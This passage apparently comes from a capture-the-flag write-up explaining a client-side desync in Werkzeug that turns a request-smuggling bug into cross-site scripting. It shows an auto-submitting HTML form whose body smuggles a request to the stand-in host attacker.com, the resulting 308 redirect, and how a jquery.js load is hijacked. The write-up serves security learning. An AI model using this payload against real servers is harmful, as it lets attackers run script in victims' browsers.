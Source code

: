 ```
HTTP/1.1 308 PERMANENT REDIRECT
Server: Werkzeug/2.1.0 Python/3.11.4
Date: Mon, 17 Jul 2023 15:18:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 262
Location: http://google.com/?
```

Again check the research blog if you want to know the root cause of this.


By using a form such as this:

```html
<form id="x" action="http://localhost:1337/"
    method="POST"
    enctype="text/plain">
    <textarea name="GET https://attacker.com HTTP/1.1
    Foo: x">Mizu</textarea>
    <button type="submit">CLICK ME</button>
    </form>


<script> x.submit() </script>
```




![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/d13d01d6-84ca-4975-96f4-49e0c0796de5)


Upon submitting the above form this what happened:
![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/7fdfcc5b-4f7d-4c6b-b3b7-16bbef90c0f8)

*As we have a Client-Side Desync in Werkzeug, and this kind of attacks allows to control arbitrary bytes of the next request, it is possible to abuse it to recreate the open redirect payload from a malicious HTTP request.*

Quoting this from Mizu's blog what's happening here is that the payload send in the request body is used in the next request


In our case the next request was made to http://localhost:1337/static/js/jquery.js , due to the bug in the parsing the request the server  instead of returning the original jquery.js code it returns a 308 redirect response to https://attacker.com (whatever code is returned by this server will be loaded in the page instead jquery.js) this give us a nice xss.


We can confirm this xss by adding this payload to our index.html file

```js
alert()
```


![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/4899cdfb-f18f-43bf-9c7b-61a01fbfad9d)
